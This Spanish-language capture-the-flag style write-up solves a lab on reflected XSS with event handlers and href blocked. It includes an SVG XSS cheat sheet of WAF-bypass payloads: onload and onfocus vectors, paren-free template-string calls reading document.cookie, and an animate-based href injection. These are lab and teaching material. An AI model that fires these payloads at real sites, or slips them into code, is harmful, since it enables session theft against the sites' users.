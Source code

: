 Lab: Reflected XSS with event handlers and href attributes blocked


This lab contains a reflected XSS vulnerability with some whitelisted tags, but all events and anchor `href` attributes are blocked.

To solve the lab, perform a cross-site scripting attack that injects a vector that, when clicked, calls the `alert` function.

Note that you need to label your vector with the word "Click" in order to induce the simulated lab user to click your vector. For example:

```html
<a href="">Click me</a>
```
---


Como se trata de un contexto HTML entre etiquetas, sabemos que el parámetro de búsqueda refleja el payload que se le inyecte:
![image](https://github.com/user-attachments/assets/6d1bb63e-6238-4146-b8b0-6707ef8d6611)

Tembién sabemos que tenemos un waf que bloquea la mayoría de las etiquetas:
![image](https://github.com/user-attachments/assets/d34ec8c0-b27e-4ab5-8fb0-203c84c0e680)

Por lo que dice el ejercicio, el waf tiene una lista blanca de etiquetas, entre las cuales, está permitida al etiqueta `<a>`:
![image](https://github.com/user-attachments/assets/f274c733-f853-4e80-b3f3-0bb47a9f0cec)

Sin embargo si queremos inyectar la siguiente etiqueta:
```html
<a href="javascript:alert(1)">Click me</a>
```
Vemos que el atributo `href` está bloqueado:
![image](https://github.com/user-attachments/assets/9887dbca-5f68-4839-9f95-cfb9a2fc68f9)

Procedemos a realizar un Sniper Attack con Burpsuite Intruder para averiguar las tags permitidas:
![image](https://github.com/user-attachments/assets/851d9069-0f80-4489-8130-653c29d5a86a)

Hay que tener especial atención al `<svg>`, ya que:

- Es comúnmente usado en ataques XSS modernos.

- Se puede usar junto con eventos como `onload`, por ejemplo:
  ```html
  <svg onload="alert(1)">
  ```
Probamos el payload pero vemos que el atributo onload es bloqueado:
![image](https://github.com/user-attachments/assets/776bb23a-6f73-4202-9568-c9593f3dd206)


---

# 🧠 Guía Completa de XSS usando `<svg>`

## 🧩 ¿Por qué `<svg>` es útil para XSS?

`<svg>` es una etiqueta válida de HTML5 usada para gráficos vectoriales.  
Lo interesante es que el navegador la permite aunque el WAF (Firewall) bloquee etiquetas clásicas como `<script>`, `<img>`, etc.

Además, **dentro de un `<svg>` podés insertar eventos de JavaScript**, como `onload`, `onmouseover`, etc., lo que la hace una excelente herramienta para bypass.

---

## 🧪 Casos básicos de XSS con `<svg>`

### 1. 🧨 Payload mínimo funcional:

```html
<svg onload=alert(1)>
```

- `onload`: se ejecuta apenas el navegador carga el SVG.

---

### 2. 🔥 Payload dentro de una URL (reflected XSS):

```url
?search=<svg%20onload=alert(1)>
```

- `%20` es espacio, el navegador lo decodifica al mostrarlo.

---

### 3. 🛠️ Payload más elaborado con atributos adicionales:

```html
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)">
```

- `xmlns`: hace que el SVG sea completamente válido.
- `document.domain`: otra forma de probar que se ejecuta JS.

---

## 💡 ¿Qué eventos podés usar?

- `onload` ✅ → apenas se carga.
- `onmouseover` ✅ → cuando pasás el mouse.
- `onfocus` ✅ → cuando hacés foco (útil con `tabindex`).
- `onclick` ✅ → cuando hacés click.

```html
<svg onclick=alert(1)>Click me</svg>
```

---

## 🎯 Casos reales de bypass con `<svg>`

### ✅ Bypass cuando `<script>` está bloqueado:

```html
<svg/onload=alert(1)>
```

### ✅ Payload sin paréntesis:

```html
<svg onload=confirm`${document.cookie}`>
```

### ✅ Payload ofuscado:

```html
<svg %0Aonload=alert(1)>
```

---

## 💡 Pro Tips

| Caso | Técnica |
|------|---------|
| WAF bloquea `<script>` | Usá `<svg onload=...>` |
| WAF bloquea paréntesis | Usá template strings: \`${...}\` |
| WAF bloquea `"`, `'` | Usá backticks o sin comillas |
| Quieren que se dispare solo | `onload` o `autofocus + #hash` |

---

## 🧪 Práctica rápida

```url
?search=<svg%20onload=alert(document.domain)>
```

```url
?search=<svg%20id=x%20onfocus=alert(1)%20tabindex=1>#x
```

---

## 🧱 Si tenés un WAF muy fuerte...

```html
<svg><script>alert(1)</script></svg>
```

```html
<svg><a xlink:href="javascript:alert(1)">CLICK</a></svg>
```

> Ojo: no todos los navegadores modernos permiten `javascript:` dentro de SVGs hoy.

---




## 📦 Payload SVG

```html
<svg>
  <a>
    <animate attributeName=href values=javascript:alert(1) />
    <text x=20 y=20>Click me</text>
  </a>
</svg>
```

---

## 🔍 Explicación Paso a Paso

### 1. `<svg>`

- Contenedor SVG (Scalable Vector Graphics) donde se puede incluir código gráfico, pero también etiquetas como `<a>`, `<text>`, y `<animate>`.

### 2. `<a>`

- Representa un enlace.
- Su atributo `href` se puede modificar dinámicamente.

### 3. `<animate>`

- Permite modificar atributos con animaciones.
- Aquí, se usa para modificar el `href` del enlace a `javascript:alert(1)`.

```html
<animate attributeName=href values=javascript:alert(1) />
```

- **`attributeName=href`**: especifica que se animará el atributo `href`.
- **`values=javascript:alert(1)`**: el valor que tomará el atributo.

### 4. `<text>`

- Muestra el texto `"Click me"` en la pantalla.
- Coordenadas `x=20` y `y=20` posicionan el texto dentro del SVG.

```html
<text x=20 y=20>Click me</text>
```

### Resultado:

- Cuando el usuario hace clic en el texto "Click me", se ejecuta `javascript:alert(1)`.

---

## ⚠️ Consideraciones de Seguridad

- Aunque atributos peligrosos como `onload` o `href` se filtren, se pueden establecer indirectamente con `<animate>`.
- Este método puede eludir muchos filtros WAFs y validadores mal implementados.

---

## 📚 Recursos Adicionales

- [XSS fun with animated SVG - ISEC](https://blog.isec.pl/xss-fun-with-animated-svg/)
- [SVG animate XSS vector - PortSwigger Research](https://portswigger.net/research/svg-animate-xss-vector)




